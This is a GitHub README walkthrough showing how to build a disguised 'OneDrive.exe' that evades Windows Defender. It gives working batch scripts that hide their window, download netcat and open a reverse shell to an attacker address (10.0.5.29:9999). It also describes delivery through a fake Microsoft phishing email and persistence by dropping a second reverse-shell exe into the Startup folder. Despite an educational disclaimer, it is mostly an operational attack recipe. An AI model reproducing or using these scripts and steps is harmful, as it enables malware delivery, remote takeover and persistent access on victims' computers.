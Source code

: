 # Bypassing-Windows-Defender-for-fun
![816nvu](https://github.com/S3nouy/Bypassing-Windows-Defender-for-fun/assets/77050462/1b9865a9-73c4-4e63-b1bf-bc5d62f79fa1)


# Disclaimer:

This presentation is intended solely for educational purposes to increase awareness about phishing attacks and cybersecurity threats. The techniques demonstrated are to help you recognize and defend against potential threats. By attending this presentation, you acknowledge that any misuse or illegal use of this information is strictly prohibited and is not endorsed. The presenter bears no responsibility for any such misuse.

# Credits:
-Senouy

# Introduction:
In this demo I am taking advantage of simple things, casual softwares intended for ethical use cases and I shape them to be dangerous assets to hack our way in.
Let’s take a look at the script we are using.

`@echo off
call getCmdPid
call windowMode -pid %errorlevel% -mode hidden & curl https://raw.githubusercontent.com/int0x33/nc.exe/master/nc64.exe -o C:\Users\Public\Downloads\nc64.exe & C:\Users\Public\Downloads\nc64.exe -e cmd.exe 10.0.5.29 9999`

What the script does :

`@echo off` is a standard directive in batch files (.bat) in Windows, and it serves a similar purpose to #!/bin/bash in Linux shell scripts. Its job is to not show the commands that are being ran.

`getCmdPid.exe` is responsible for printing the PID number of the windows process we are using.

`call windowMode -pid %errorlevel% -mode hidden` now we pass the pid number of the cmd prompt we are currently on to the windowmode.exe and hiding any potential errors.

`the rest of the script` downloads netcat (a remote control tool) and outputs it to a set folder, in this case C:\Users\Public\Downloads and then runs it with the parameter –e to connect to our listening machine 10.0.5.29 through the port 9999.

![image](https://github.com/S3nouy/Bypassing-Windows-Defender-for-fun/assets/77050462/1188ce4d-34c9-4d61-91d8-227485c9936f)

We then use bat-to-exe-converter to convert/build our batch file to an exetuable file.

#things to change:

-import an icon to be set as the final exe’s icon.

-change exe format to 64-bit | Windows (invisible) ///This makes the exe run without triggereing the cmd.exe prompt to show.

Note: You can check the Request admin privileges box to make the final exe request admin privs to run.

The result : `OneDrive.exe`

![image](https://github.com/S3nouy/Bypassing-Windows-Defender-for-fun/assets/77050462/b7ad88d4-6deb-4172-ba11-3c0bdd222b42)
![image](https://github.com/S3nouy/Bypassing-Windows-Defender-for-fun/assets/77050462/0b346d79-4c03-43c2-89e7-9b26a173581a)

I’ve crafted a fake email using some sentences that official Microsoft teams use in their texts and used a fake Microsoft account to make it look more authentic. You can find the email here https://pastebin.com/XFrn4Z4w

Now, onto a Windows machine, the first test subject is Windows 10 version 2004. This version of Windows 10 was released back on May 27, 2020, so it's not that old.

![image](https://github.com/S3nouy/Bypassing-Windows-Defender-for-fun/assets/77050462/ada32d5b-c710-49ea-8af3-7aa7ee082902)

We now start our listner on the 9999 port and proceed to run the OneDrive.xe on the Windows machine.

`$nc –lnvp 9999`

![image](https://github.com/S3nouy/Bypassing-Windows-Defender-for-fun/assets/77050462/1a8c2498-7425-4b33-98c6-13d4da3b55cc)

After the victim has ran our malicious file, we get a reverse shell. Meaning we can control his computer and all sorts of thing including removing/creating folders and files acccessing every path we want. But there are some limitations. As you can see we are logged in as the user so that means we only have the user privileges and we need to gain Administrator rights in order to have all the rights and permissions available on the system.

![image](https://github.com/S3nouy/Bypassing-Windows-Defender-for-fun/assets/77050462/c7ed7d38-e6f4-47af-bc33-32df0b67dd2d)

# Privilege Escalation and Persistence :

On this phase I’ve prepared a script that will help us gain a reverse shell with admin privileges and in any case we lose access to the machine or our shell breaks. No worries we’ll get another one once the victim machine has restarted.
The script is as follows :

`@echo off
C:\Users\Public\Downloads\nc64.exe -e cmd.exe 10.0.5.29 9999`

-I used the bat-to-exe-converter to convert/build this batch script to an exetuable file and named it `startup.exe`.

The first step is to transfer our exe to the victim machine. So to do that I started a simple http server where my startup.exe is located. To do that use the following command:

`$python3 –m http.server 80`

On the victim machine change directory to `C:\Users\Public\Downloads\` . Then download the script and move it to the `startup applications folder` using these commands :

`$curl –o startup.exe http://10.0.5.29/startup3.exe`

`$copy "C:\Users\Public\Downloads\startup.exe" "%appdata%\Microsoft\Windows\Start Menu\Programs\Startup\"`

![image](https://github.com/S3nouy/Bypassing-Windows-Defender-for-fun/assets/77050462/1d65e504-d7f3-4b5c-b86a-c80e91b90035)

Finally you can send a command to reboot the machine ‘’shutdown –r –t 0’’ or wait for the victim user to reboot it and you’ll get a shell again but this time you’ll have admin rights.

TIP: Don’t forget to start your listener again.

# Conclusion :

This attack has succeeded in both Windows 10 version 2004 and the latet Windows 10 2023 at the time doing this experiment.

I hope you all enjoyed this walkthrough and had fun discovering what can casual tools we use and some scripting knowledge can do.


